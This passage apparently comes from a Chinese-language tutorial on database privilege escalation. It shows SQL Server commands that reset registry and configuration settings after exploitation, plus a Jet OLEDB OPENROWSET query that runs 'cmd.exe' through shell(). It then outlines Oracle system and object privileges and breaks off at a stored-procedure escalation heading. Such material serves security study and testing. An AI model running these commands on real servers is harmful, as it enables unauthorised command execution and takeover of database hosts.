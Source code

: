```sql
--利用完后恢复
EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
EXEC sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
EXEC sp_configure 'show advanced options',0;reconfigure;
```

**利用jet.oledb执行系统命令**

```sql
select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c whoami > c:\\666.txt")')
```

这个也是无回显的

**沙盒模式SandBoxMode参数含义（默认是2）**

> `0`：在任何所有者中禁止启用安全模式
>
> `1` ：为仅在允许范围内
>
> `2` ：必须在access模式下
>
> `3`：完全开启

openrowset是可以通过OLE DB访问SQL Server数据库

OLE DB是应用程序链接到SQL Server的的驱动程序

**PowerUpSQL工具**：https://github.com/NetSPI/PowerUpSQL

## Oracle提权

**系统权限**

系统规定用户使用数据库的权限（系统权限是对用户而言）

**系统权限分类**

> **DBA：**拥有全部特权，是系统最高权限，只有DBA才可以创建数据库结构。
> **RESOURCE：**拥有Resource权限的用户只可以创建实体，不可以创建数据库结构。
> **CONNECT：**拥有Connect权限的用户只可以登录Oracle，不可以创建实体，不可以创建数据库结构。

对于普通用户：授予connect, resource权限。
对于DBA管理用户：授予connect，resource, dba权限。

**实体权限**

某种权限用户对其它用户的表或视图的存取权限（是针对表或视图而言的）

**实体权限分类**

```sql
select, update, insert, alter, index, delete, all --all包括所有权限
execute --执行存储过程权限
```

### 一、存储过程提权
